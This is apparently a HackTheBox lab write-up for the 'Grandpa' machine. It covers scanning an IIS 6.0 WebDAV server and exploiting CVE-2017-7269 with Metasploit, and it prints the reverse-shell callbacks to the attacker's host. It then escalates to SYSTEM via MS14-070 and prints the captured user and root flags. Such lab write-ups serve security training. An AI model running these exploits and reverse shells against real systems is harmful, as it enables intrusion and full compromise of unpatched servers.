




# Resolution summary

>[!summary]
>- Application is running **webdav**
>- Target is vulnerable to **ScStoragePathFromUrl Overflow** (**CVE-2017-7269**), providing an access as **NT AUTHORITY\NETWORK SERVICE**
>- Microsoft Windows Server 2003 SP2 is vulnerable to Local Privilege Escalation **MS14-070**, allowing to get **NT AUTHORITY\SYSTEM** privileges

## Used tools

- nmap
- gobuser
- nikto
- davtest
- searchsploit
- msfconsole
- meterpreter

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Grandpa]
└─$ sudo nmap -sS -p-  10.10.10.14 -Pn -v -oN scans/all-tcp-ports.txt
...
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 107.09 seconds
           Raw packets sent: 131150 (5.771MB) | Rcvd: 100 (5.956KB)
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Grandpa]
└─$ sudo nmap -sT -sV -sC -p80  10.10.10.14 -Pn -v -oN scans/open-tcp-ports.txt
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Fri, 21 May 2021 14:05:38 GMT
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Enumeration

## Port 80 - HTTP (Microsoft IIS httpd 6.0)

Browsed port 80:



Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Grandpa]
└─$ gobuster dir -u http://10.10.10.14 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -r -f -o scans/p80-directories.txt
...
/images/              (Status: 403) [Size: 218]
/aspnet_client/       (Status: 403) [Size: 218]
/_private/            (Status: 403) [Size: 1529]
/_vti_log/            (Status: 403) [Size: 1529]
/_vti_txt/            (Status: 403) [Size: 1529]
/_vti_bin/            (Status: 403) [Size: 218]

┌──(kali㉿kali)-[~/CTFs/HTB/box/Grandpa]
└─$ gobuster dir -u http://10.10.10.14 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o scans/p80-files.txt
...
/_vti_inf.html        (Status: 200) [Size: 1754]
/postinfo.html        (Status: 200) [Size: 2440]
/.                    (Status: 200) [Size: 1433]
/pagerror.gif         (Status: 200) [Size: 2806]
/iisstart.htm         (Status: 200) [Size: 1433]
```

Enumerated the target using nikto:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Grandpa]
└─$ nikto -host http://10.10.10.14
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.14
+ Target Hostname:    10.10.10.14
+ Target Port:        80
+ Start Time:         2021-05-21 10:07:03 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (PROPFIND LOCK MKCOL COPY SEARCH UNLOCK PROPPATCH listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://10.10.10.14/
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8015 requests: 0 error(s) and 27 item(s) reported on remote host
+ End Time:           2021-05-21 10:14:45 (GMT-4) (462 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Enumerated the target using davtest:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Grandpa]
└─$ davtest -url http://10.10.10.14/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: by1lt4R9F
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     shtml   FAIL
PUT     cgi     FAIL
PUT     cfm     FAIL
PUT     jhtml   FAIL
PUT     html    FAIL
PUT     asp     FAIL
PUT     jsp     FAIL
PUT     php     FAIL
PUT     txt     FAIL
PUT     pl      FAIL
PUT     aspx    FAIL

********************************************************
/usr/bin/davtest Summary:
```

### Vulnerabilities

**IIS 6.0**



****FrontPage****



# Exploitation

## Microsoft IIS WebDav ScStoragePathFromUrl Overflow - CVE-2017-7269

>[!bug]
> Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If:> 

Exploited the target using the `exploit/windows/iis/iis_webdav_scstoragepathfromurl` module from metasploit:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Grandpa]
└─$ msfconsole -q
msf6 > search IIS 6.0

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/firewall/blackice_pam_icq            2004-03-18       great   No     ISS PAM.dll ICQ Parser Buffer Overflow
   1  auxiliary/dos/windows/http/ms10_065_ii6_asp_dos      2010-09-14       normal  No     Microsoft IIS 6.0 ASP Stack Exhaustion Denial of Service
   2  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow

Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/iis/iis_webdav_scstoragepathfromurl

msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.14
RHOSTS => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.14.17
LHOST => 10.10.14.17
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lport 10099
lport => 10099
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.17:10099
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.17:10099 -> 10.10.10.14:1031) at 2021-05-21 10:22:37 -0400

meterpreter >
```

Migrated the payload:

```bash
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 324   272   csrss.exe
 348   272   winlogon.exe
 396   348   services.exe
 408   348   lsass.exe
 596   396   svchost.exe
 684   396   svchost.exe
 732   1080  cidaemon.exe
 740   396   svchost.exe
 776   396   svchost.exe
 804   396   svchost.exe
 940   396   spoolsv.exe
 968   396   msdtc.exe
 980   1080  cidaemon.exe
 1076  1080  cidaemon.exe
 1080  396   cisvc.exe
 1124  396   svchost.exe
 1184  396   inetinfo.exe
 1224  396   svchost.exe
 1332  396   VGAuthService.exe
 1412  396   vmtoolsd.exe
 1460  396   svchost.exe
 1640  396   alg.exe
 1676  396   svchost.exe
 1772  596   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe
 1988  3848  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 2308  596   wmiprvse.exe
 2676  348   logon.scr
 2912  2408  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 3640  596   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3848  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe

meterpreter > migrate wmiprvse.exe
[-] Not a PID: wmiprvse.exe
meterpreter > migrate 1772
[*] Migrating from 1988 to 1772...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

# Lateral Movement to user

Bla bla

# Privilege Escalation

## Local enumeration

Users:

```powershell
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled

c:\windows\system32\inetsrv>net user
net user

User accounts for \\GRANPA

-------------------------------------------------------------------------------
Administrator            ASPNET                   Guest
Harry                    IUSR_GRANPA              IWAM_GRANPA
SUPPORT_388945a0
The command completed successfully.
```

- SeAssignPrimaryTokenPrivilege
- SeImpersonatePrivilege
- SeIncreaseQuotaPrivilege (?)

Enumerated system info:

```powershell
C:\>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 36 Minutes, 5 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 766 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,307 MB
Page File: In Use:         163 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Enumerated possible exploit using windows-exploit-suggester.py:

```powershell
┌──(kali㉿kali)-[~/…/HTB/box/Grandpa/loot]
└─$ /opt/post-expl/windows/Windows-Exploit-Suggester/windows-exploit-suggester.py -i systeminfo -d /opt/post-expl/windows/Windows-Exploit-Suggester/2021-04-22-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*]
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*]
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*]
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
[*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
[*]
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*]
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*]
[M] MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
[*]   http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
[*]   http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation
[*]
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*]
[E] MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
[*]   https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
[*]   https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC
[*]
[E] MS14-035: Cumulative Security Update for Internet Explorer (2969262) - Critical
[E] MS14-029: Security Update for Internet Explorer (2962482) - Critical
[*]   http://www.exploit-db.com/exploits/34458/
[*]
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*]   http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*]
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-071: Vulnerability in Windows Theme File Could Allow Remote Code Execution (2864063) - Important
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*]
[M] MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
```

Exploit suggester:

```powershell
msf6 exploit(windows/local/ms14_009_ie_dfsvc) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester

Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(windows/local/ms14_009_ie_dfsvc) > use 0
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 37 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

## Microsoft Windows Server 2003 SP2 - Local Privilege Escalation (MS14-070)

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/35936)

```bash
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search MS14-070

Matching Modules
================

   #  Name                                        Disclosure Date  Rank     Check  Description
   -  ----                                        ---------------  ----     -----  -----------
   0  exploit/windows/local/ms14_070_tcpip_ioctl  2014-11-11       average  Yes    MS14-070 Windows tcpip!SetAddrOptions NULL Pointer Dereference

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms14_070_tcpip_ioctl

msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > options

Module options (exploit/windows/local/ms14_070_tcpip_ioctl):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.241.133  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows Server 2003 SP2

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set LHOST 10.10.14.17
LHOST => 10.10.14.17
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.17:4444 -> 10.10.10.14:1035) at 2021-05-21 11:41:28 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
...
C:\Documents and Settings>type Harry\Desktop\user.txt*
type Harry\Desktop\user.txt*

Harry\Desktop\user.txt

bdff5ec67c3cff017f2bedc146a5d869
C:\Documents and Settings>type Administrator\Desktop\root.txt*
type Administrator\Desktop\root.txt*

Administrator\Desktop\root.txt

9359e905a2c35f861f6a57cecf28bb7b
C:\Documents and Settings>hostname && ipconfig
hostname && ipconfig
granpa

Windows IP Configuration

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . :
   IP Address. . . . . . . . . . . . : 10.10.10.14
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```



# Trophy

>[!quote]
> What hackers do is figure out technology and experiment with it in ways many people never imagined. They also have a strong desire to share this information with others and to explain it to people whose only qualification may be the desire to learn.
> 
\- Emmanuel Goldstein

>[!success]
>**User.txt**
>bdff5ec67c3cff017f2bedc146a5d869

>[!success]
>**Root.txt**
>9359e905a2c35f861f6a57cecf28bb7b

